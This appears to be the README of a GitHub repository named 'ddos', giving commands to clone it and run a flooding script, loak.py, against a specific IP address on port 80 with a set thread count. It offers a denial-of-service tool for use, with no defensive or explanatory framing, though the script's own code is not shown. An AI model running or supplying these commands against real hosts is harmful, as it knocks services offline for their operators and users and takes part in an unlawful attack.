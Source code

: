 # ddos

git clone https://github.com/ady08/ddos

cd ddos

python2 loak.py

python loak.py -s 103.23.22.128 -p 80 -t 135
